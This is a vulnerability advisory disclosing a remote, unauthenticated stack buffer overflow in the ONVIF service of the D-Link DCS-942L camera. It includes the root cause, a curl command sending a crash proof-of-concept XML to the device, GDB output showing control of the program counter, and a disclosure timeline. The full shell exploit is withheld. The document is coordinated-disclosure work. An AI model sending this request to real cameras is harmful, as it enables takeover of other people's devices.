

# Remote stack overflow on D-Link cameras #

* _Authors_: Roberto Paleari ([@rpaleari](https://twitter.com/rpaleari)) and Aristide Fattori ([@joystick](https://twitter.com/joystick))
* _Release date_: 10/11/2015

This issue concerns a stack-based buffer overflow on D-Link cameras. The
vulnerability affects the [Onvif](http://www.onvif.org/) service, which is
exposed on the WAN side and accessible with no authentication. In other terms,
the vulnerability can be exploited by remote, unauthenticated attackers to gain
`root` access on the affected devices.

We tested this vulnerability on D-Link camera DCS-942L, but other models are
probably affected as well.

## Vulnerability details ##

The root cause of the vulnerability is a `vsprintf(str, "%s", input)` function
call, where `str` is a fixed-size stack variable while `input` is the
attacker-controlled input request buffer. An attacker can thus reliably overwrite a
code pointer on the stack (e.g., the saved `lr` register) to hijack the
execution flow.

The vulnerable `vsprintf()` function is invoked by `BaseCgilet::Term()` (from
`libcgilet.so`). In the following, we trigger the exploit starting from
`Soaplet::onUpdateSettings()`, which in turn invokes `BaseCgilet::Term()` when
an input XML document cannot be properly parsed. Other code paths
may exist that lead to the vulnerable function call.

## Exploitation ##

A program crash can be triggered quite simply and reliably. As an example,
consider the following command-line:

	curl -d @poc-crash.xml -k -v https://<target IP>/onvif/device_service --header 'Content-Type: application/soap+xml; charset=utf-8; action="http://www.onvif.org/ver10/device/wsdl/GetSystemDateAndTime"'

The `poc-crash.xml` XML document is available [here](poc-crash.xml). This
request makes the target CGI binary overflow the stack buffer, overwriting the
saved `lr` value with dummy data. In the following GDB run, all the registers
with value `0x58585858` and `0x41414141` come from the input XML document.

	# gdb --args ./device_service
	(gdb) run < poc.xml
	ret != IXML_SUCCESS: 12
	!_soapDump:
	<s:Envelope xmlns:s="AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAXXXX">

	Program received signal SIGSEGV, Segmentation fault.
	0x58585858 in ?? ()
	(gdb) info registers
	r0             0x214    532
	r1             0x0      0
	r2             0x0      0
	r3             0x0      0
	r4             0x41414141       1094795585
	r5             0x82588  533896
	r6             0x82cd8  535768
	r7             0x0      0
	r8             0x0      0
	r9             0x0      0
	r10            0xb6fff000       3070226432
	r11            0x41414141       1094795585
	r12            0xb6f8e418       3069764632
	sp             0xbefff888       0xbefff888
	lr             0x58585858       1482184792
	pc             0x58585858       0x58585858
	cpsr           0x60000010       1610612752

We also developed a working exploit which spawns a shell. However, we just
provide a screenshot of the exploit here, without the complete PoC: the device is
configured with very limited protections, so it is not very difficult to
develop a fully weaponized exploit.

## Affected models ##

We confirm the D-Link DCS-942L camera model is affected. More specifically, we
tested the exploit on firmware version 1.25 (hardware revision A). This was the
most recent firmware version available when the vulnerability was found.

Other device models are probably vulnerable as well, but they were not tested.

## Timeline ##

- 25 Aug: Notified D-Link, proposed a 60-days disclosure (deadline set to October 26, 2015).

- 26 Aug: D-Link replied.

- 26 Aug: Sent details to D-Link.

- 27 Aug: D-Link confirmed the vulnerability.

- 14 Sep: Asked for a confirmation for the proposed deadline.

- 24 Sep: D-Link replied, stating that patching was still in progress.

- 12 Oct: Asked for a new update about the ongoing patching, and a confirmation for the proposed deadline.

- 16 Oct: D-Link replied, asking for an extension until November 09, 2015.

- 16 Oct: Confirmed the new deadline (November 09, 2015).

- 10 Nov: Disclosure.
